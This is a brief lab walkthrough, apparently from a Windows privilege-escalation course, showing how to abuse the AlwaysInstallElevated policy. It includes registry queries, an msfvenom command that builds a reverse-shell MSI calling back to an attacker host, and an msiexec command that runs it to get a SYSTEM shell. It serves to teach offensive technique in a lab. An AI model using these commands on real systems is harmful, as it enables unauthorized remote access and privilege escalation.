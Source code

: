 
Query the registry for AlwaysInstallElevated keys:

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:  

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:  

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`